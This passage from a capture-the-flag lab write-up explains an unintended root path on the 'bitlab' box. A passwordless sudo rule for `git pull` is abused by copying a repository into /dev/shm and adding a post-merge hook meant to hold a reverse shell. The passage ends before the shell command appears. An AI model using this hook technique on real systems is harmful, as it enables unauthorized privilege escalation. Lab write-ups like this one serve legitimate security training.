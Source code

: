 

## Beyond Root

### Unintended Path from www-data to root

With a shell as www-data, I ran `sudo -l`, and saw I could run
`git pull` without password:



    www-data@bitlab:/$ sudo -l
    Matching Defaults entries for www-data on bitlab:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on bitlab:
        (root) NOPASSWD: /usr/bin/git pull



This makes sense, as I saw the deploy project needed to run this
automatically when new code is committed.

In `git`, a `pull` is actually a `git fetch` followed by a `git merge`.
I can make my own hook, a `post-merge` hook, and put a shell in there.
The challenge I have is that both projects are owned by root and not
writable by me:



    www-data@bitlab:/var/www.md$ find -type d -name hooks -ls
      2502298      4 drwxr-xr-x   2 root     root         4096 Jan  4  2019 ./profile/.git/hooks
      2760044      4 drwxr-xr-x   2 root     root         4096 Jan  4  2019 ./deployer/.git/hooks



I could create a new project, but to do a `git pull`, I'll need to
connect it to a remote project. I could stand up my own git server on my
kali box.

A much easier way to do this is to just copy one of the projects. I'll
copy it into a working directory in `/dev/shm`:



    www-data@bitlab:/dev/shm/.0xdf$ cp -r /var/www.md/profile .



Now I can write a hook as the folder owner:



    www-data@bitlab:/dev/shm/.0xdf$ ls -ld profile/.git/hooks/
    drwxr-xr-x 2 www-data www-data 260 Sep  8 13:37 profile/.git/hooks/



I'll write a reverse shell as a `post-merge` hook, and set it
executable:



    www-data@bitlab:/dev/shm/.0xdf/profile$ cat .git/hooks/post-merge
    #!/bin/bash
